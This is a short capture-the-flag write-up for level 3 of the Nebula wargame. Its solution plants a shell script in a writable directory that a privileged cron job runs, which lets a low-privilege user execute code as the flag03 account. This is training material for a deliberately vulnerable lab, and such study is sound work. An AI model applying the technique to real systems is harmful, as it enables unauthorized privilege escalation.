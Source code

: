 .. _nebula03:

.. role:: bash(code)
	  :language: bash
		     
Nebula 3
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level03/

**No source code given**

Solution
--------

Create an script with this:

.. code-block:: bash

   #!/bin/sh

   /bin/getflag >> /tmp/flag03.out

   $ cp getflag.sh /home/flag03/writable.d/

.. note:: You have to wait until cron gets executed
